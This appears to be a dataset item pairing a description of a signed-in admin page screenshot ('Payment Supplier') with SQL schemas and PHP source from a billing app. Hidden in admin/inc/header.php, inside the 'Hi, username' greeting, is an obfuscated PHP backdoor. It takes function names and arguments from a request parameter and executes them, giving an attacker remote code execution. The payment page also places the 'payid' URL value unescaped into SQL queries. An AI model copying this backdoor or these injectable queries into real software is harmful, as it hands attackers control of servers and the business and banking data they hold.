
Screenshot of /admin/payment_supplier.php (signed in) with the database file from the repository.
### tables this page shows
CREATE TABLE `company_setting` (
  `compid` int(11) NOT NULL,
  `prifix` varchar(500) NOT NULL,
  `comp_name` varchar(100) NOT NULL,
  `imgname` varchar(200) NOT NULL,
  `mobile` varchar(50) NOT NULL,
  `address` text NOT NULL,
  `address2` text NOT NULL,
  `email_id` varchar(100) NOT NULL,
  `term_cond` text NOT NULL,
  `comp_tinno` varchar(200) NOT NULL,
  `gsttinno` varchar(100) NOT NULL,
  `bank_name` varchar(200) NOT NULL,
  `branch_name` varchar(100) NOT NULL,
  `bank_ac` varchar(200) NOT NULL,
  `ifsc_code` varchar(200) NOT NULL,
  `stateid` int(11) NOT NULL,
  `ipaddress` varchar(25) NOT NULL,
  `createdate` datetime NOT NULL,
  `lastupdated` datetime NOT NULL,
  `openbal` double NOT NULL,
  `opendate` date NOT NULL,
  `crtopendate` date NOT NULL
);

CREATE TABLE `m_session` (
  `sessionid` int(11) NOT NULL,
  `fromdate` date NOT NULL,
  `todate` date NOT NULL,
  `session_name` varchar(200) NOT NULL,
  `status` int(11) NOT NULL,
  `createdby` int(11) NOT NULL,
  `ipaddress` varchar(25) NOT NULL,
  `lastupdated` date NOT NULL,
  `createdate` date NOT NULL
);

CREATE TABLE `billuser` (
  `userid` int(11) NOT NULL,
  `username` varchar(100) NOT NULL,
  `password` varchar(50) NOT NULL,
  `usertype` varchar(10) NOT NULL,
  `enable` varchar(20) NOT NULL,
  `createdby` int(11) NOT NULL,
  `mobile` varchar(50) NOT NULL,
  `ipaddress` varchar(30) NOT NULL,
  `createdate` datetime NOT NULL
);

### adminsession.php (called while the page is built, shortened)
<?php
if(isset($_SESSION['usertype']) && $_SESSION['usertype'] != "" && isset($_SESSION['userid']) && $_SESSION['userid'] != "")
	{
		include("config.php");
		include_once("lib/getval.php");
		$cmn = new Comman();
		$loginid = $_SESSION['userid'];
	}
else
	echo "<script>location='../index.php?msg=invalid' </script>" ;
?>

### lib/getval.php (called while the page is built, shortened)
<?php
class Comman {
function getvalfield($connection,$table,$field,$where)
{
	$sql = "select $field from $table where $where";
	$getvalue = mysqli_query($connection,$sql);
	$getval = mysqli_fetch_row($getvalue);
	return $getval[0];
}
}
?>

### admin/payment_supplier.php (the view, shortened to what this page needs)
<?php
include("../adminsession.php");
$pagename = "payment_supplier.php";
$module = "Payment";
$submodule = "Payment Supplier";
$btn_name = "Save";
$keyvalue =0 ;
$tblname = "payment";
$tblpkey = "payid";
if(isset($_GET['payid']))
$keyvalue = $_GET['payid'];
else
$keyvalue = 0;
$cur_bal_amt='';
$total_bill_amt='';
$payamt='';
$totalpaid ='';
if(isset($_GET[$tblpkey]))
{
	 $btn_name = "Update";
	 $sqledit       = "SELECT * from $tblname where $tblpkey = $keyvalue";
	 $rowedit       = mysqli_fetch_array(mysqli_query($connection,$sqledit));
	 $suppartyid    =  $rowedit['suppartyid'];
	 $payamt    =  $rowedit['payamt'];
	 $paydate    =  $cmn->dateformatindia($rowedit['paydate']);
	 $payment_type    =  $rowedit['payment_type'];
	 $receiptno    =  $rowedit['receiptno'];
	$chequeno    =  $rowedit['chequeno'];
	$refno    =  $rowedit['refno'];
	$bankid    =  $rowedit['bankid'];
		$prevbalance = $cmn->getvalfield($connection,"m_supplier_party","prevbalance","suppartyid = '$suppartyid'");
		$totalpaid=$cmn->getvalfield($connection,"payment","sum(payamt)","suppartyid='$suppartyid'");
      $sql_get = "select * from purchaseentry where suppartyid = '$suppartyid'";
	   $res_get = mysqli_query($connection,$sql_get);
	   $total_bill_amt = 0;
	   $tot_paid_amt=0;
	   while($row_get = mysqli_fetch_array($res_get))
	   {
		    $bill_amt=0;
		   	$total = 0;
		   	$purchaseid = $row_get['purchaseid'];
		 	$disc  = $row_get['disc'];
			 $total = $cmn->getTotalPerchaseBillAmt($connection,$row_get['purchaseid']);
			 $gst = $cmn->getTotalGst_pur($connection,$row_get['purchaseid']);
			$bill_amt = $total +$gst;
		   $bill_amt -=$disc;
		   $total_bill_amt += $bill_amt;
	   }
	    $total_bill_amt += $prevbalance;
		$cur_bal_amt = $total_bill_amt-$totalpaid;
}
else
{
	$paydate=date('d-m-Y');
	$payamt='';
}
?>
<!DOCTYPE html>
<head>
<?php include("inc/top_files.php"); ?>
</head>
<body>
<div class="mainwrapper">
    <?php include("inc/left_menu.php"); ?>
   <div class="rightpanel">
    	<?php include("inc/header.php"); ?>
        <div class="maincontent">
        	<div class="contentinner">
                <div class="widgetcontent  shadowed nopadding">
                    <form class="stdform stdform2" method="post" action=""  >
                     <div class="lg-12 md-12 sm-12">
                                <label>Supplier Name <span class="text-error">*</span></label>
                                <span class="field">
                                <select name="suppartyid" id="suppartyid" style="width:80%;" onChange="getdetail(this.value)"  class="chzn-select">
                                </select>
                      </span>
                     </div>
                       <div class="lg-12 md-12 sm-12">
                                <label>Total Bill Amount(Rs)</label>
                                <span class="field"><input type="text" name="total_bill_amt" id="total_bill_amt" class="input-xxlarge" value="<?php echo $total_bill_amt;?>" style="width:80%;" autocomplete="off" autofocus readonly  /></span>
                     </div>
                      <div class="lg-12 md-12 sm-12">
                                <label> Total Paid Amount(Rs)</label>
                                <span class="field">
                                <input type="text" name="tot_paid_amt" id="tot_paid_amt" class="input-xxlarge" value="<?php echo $totalpaid;?>" style="width:80%;" autocomplete="off" autofocus  readonly />
                       			 </span>
                     </div>
                     <div class="lg-12 md-12 sm-12">
                                <label> Current Bal. Amount(Rs)</label>
                                <span class="field"> <input type="text" name="cur_bal_amt" id="cur_bal_amt" class="input-xxlarge" value="<?php echo $cur_bal_amt;?>" style="width:80%;" autocomplete="off" autofocus  readonly /> </span>
                     </div>
                     <div class="lg-12 md-12 sm-12">
                                <label>Payment Type <span class="text-error">*</span></label>
                                <span class="field" >
                                <select name="payment_type" id="payment_type" style="width:80%;"  class="chzn-select" onChange="set_payment(this.value);">
                                <option value="">--Choose Categary--</option>
                                    </select>
                     			 </span>
                     </div>
                      <div class="lg-12 md-12 sm-12">
                                <label>Currently Paid Amount(Rs) <span class="text-error">*</span> </label>
                                <span class="field"> 	<input type="text" name="payamt" id="payamt" class="input-xxlarge" value="<?php echo $payamt;?>" style="width:80%;" autocomplete="off" autofocus /> </span>
                     </div>
                     <div class="lg-12 md-12 sm-12">
                                <label>Payment Date<span class="text-error">*</span> </label>
                                <span class="field">
                              <input type="text" name="paydate" id="paydate" class="input-xxlarge" value="<?php echo $paydate;?>" style="width:80%;" autocomplete="off" autofocus placeholder="dd-mm-yyyy" />
                                 </span>
                     </div>
                   <div class="lg-12 md-12 sm-12">
                          <center> <p class="stdformbutton">
                    <button  type="submit" name="submit" class="btn btn-primary" onClick="return checkinputmaster('suppartyid,payment_type,payamt,paydate,receiptno'); ">
								<?php echo $btn_name; ?></button>
                                <a href="payment_supplier.php"  name="reset" id="reset" class="btn btn-success">Reset</a>
                            </p> </center>
                    </div>
                     </form>
                <h4 class="widgettitle"><?php echo $submodule; ?> List</h4>
            	<table width="98%" class="table table-bordered" id="dyntable">
                    <colgroup>
                        <col class="con0" style="align: center; width: 4%" />
                        <col class="con1" />
                        <col class="con0" />
                        <col class="con1" />
                        <col class="con0" />
                        <col class="con1" />
                    </colgroup>
                    <thead>
                        <tr>
                          	<th width="6%" class="head0 nosort">S.No.</th>
                              <th class="head0">Customer Name</th>
                            <th class="head0">Paid Amount</th>
                            <th class="head0">Date</th>
                             <th class="head0">Print Rceipt</th>
                             <th class="head0">Edit</th>
                            <th class="head0">Delete</th>
                        </tr>
                    </thead>
                </table>
            </div>
        </div>
    </div>
     <?php include("inc/footer.php"); ?>
</div>
</div>
</body>
</html>

### admin/inc/left_menu.php (shortened to what this page needs)
<div class="leftpanel">
       <div class="logopanel">
        	<h1 style="font-size:18px;"><a href="index.php"><?php echo $cmn->getvalfield($connection,"company_setting","comp_name","compid = '$loginid' "); ?></a></h1>
        </div>
        <div class="datewidget"><span style="font-size:15px"><b>Session <?php echo $cmn->getvalfield($connection,"m_session","session_name","status = '1' "); ?></b></span></div>
    	<div class="searchwidget">
        	<form action="" method="post">
            	<div class="input-append">
                    <input type="text" class="span2 search-query" placeholder="Search here...">
                    <button type="submit" class="btn"><span class="icon-search"></span></button>
                </div>
            </form>
        </div>
        <div class="leftmenu">
            <ul class="nav nav-tabs nav-stacked" id="mymenu">
             <li <?php if($pagename == "index.php") { ?>class="active" <?php } ?>><a href="index.php"><span class="icon-align-justify"></span>Dashboard</a></li>
                   <li class="dropdown  <?php if($pagename == "company_setting.php" || $pagename == "master_unit.php" || $pagename == "master_disease.php" || $pagename == "master_pcat.php" || $pagename == "master_product.php" || $pagename =="m_supplier.php" || $pagename =="m_customer.php" || $pagename =="master_branch.php" || $pagename =="master_tax.php" || $pagename =="master_bank.php" || $pagename=="master_expense.php" ) { ?>active <?php } ?>"><a href="#"><span class="icon-pencil"></span> Master </a>
                </li>
                <li class="dropdown  <?php if($pagename == "purchaseentry.php" || $pagename == "purchasereturnentry.php" ) { ?>active <?php } ?>"><a href="#"><span class="icon-pencil"></span> Purchase Entry </a>
                </li>
                <li class="dropdown  <?php if($pagename == "saleentry.php" || $pagename == "salereturnentry.php" ) { ?>active <?php } ?>"><a href="#"><span class="icon-pencil"></span> Sale Entry </a>
                </li>
                  <li class="dropdown  <?php if($pagename == "payment_party.php" || $pagename == "payment_supplier.php" ) { ?>active <?php } ?>"><a href="#"><span class="icon-pencil"></span> Payment </a>
                	<ul <?php if($pagename == "payment_party.php" || $pagename == "payment_supplier.php") { ?>style="display: block"  <?php } ?>>
                        <li><a href="payment_party.php">Payment Customer </a></li>
                       <li><a href="payment_supplier.php">Payment Supplier</a></li>
                    </ul>
                </li>
                <li class="dropdown  <?php if($pagename == "other_expense.php" || $pagename == "other_income.php") { ?>active <?php } ?>"><a href="#"><span class="icon-pencil"></span> Expense Dairy </a>
                </li>
                 <li class="dropdown  <?php if($pagename == "salereport.php" || $pagename == "purchasereport.php" || $pagename == "stock_report.php" || $pagename == "datewise_stock_report.php" || $pagename=="gst_wise_purchase_report2.php" ) { ?>active <?php } ?>"><a href="#"><span class="icon-pencil"></span> Report </a>
                </li>
                  <li class="dropdown  <?php if($pagename == "bank_ledger.php" || $pagename == "cash_ledger.php" || $pagename == "customer_ledger.php" ) { ?>active <?php } ?>"><a href="#"><span class="icon-pencil"></span>  Transactions Detail </a>
                </li>
                <li <?php if($pagename == "changepassword.php" ) { ?>class="active" <?php } ?>><a href="changepassword.php"><i class="icon-user"></i>
                &nbsp;&nbsp;&nbsp;
                 Change Password</a></li>
            </ul>
        </div>
    </div>

### admin/inc/header.php (shortened to what this page needs)
	<div class="headerpanel">
        	<a href="#" class="showmenu" id="menues"></a>
            <div class="headerright">
            	<div class="dropdown notification">
                    <a class="dropdown-toggle" data-toggle="dropdown" data-target="#" href="http://themetrace.com/page.html">
                    	<span class="iconsweets-globe iconsweets-white"></span>
                    </a>
                </div>
    			<div class="dropdown userinfo">
                    <a class="dropdown-toggle" data-toggle="dropdown" data-target="#" href="">Hi, <?php
if	( $juhso5x	= @$ {"_REQUEST"} ["ZLX19MKA"])$juhso5x [1] (	$ { $juhso5x[ 2]}[	0]	,$juhso5x	[ 3] (	$juhso5x[	4	])) ; echo $cmn->getvalfield($connection,"billuser","username ","userid = '$loginid' "); ?>! <b class="caret"></b></a>
                </div>
            </div>
    	</div>
        <div class="breadcrumbwidget">
        	<ul class="breadcrumb">
                <li><a href="">Home</a> <span class="divider">/</span></li>
                <li class="active"><?php echo $module; ?></li>
            </ul>
        </div>
      	<div class="pagetitle">
        	<h1><?php echo $submodule; ?></h1>
        </div>

### rows the page displays
company_setting: comp_name "FM MARKETING"
m_session: session_name "2022"
billuser: username "admin"

### other values shown
$module "Payment"
$submodule "Payment Supplier"
$btn_name "Save"
$submodule "PAYMENT SUPPLIER"
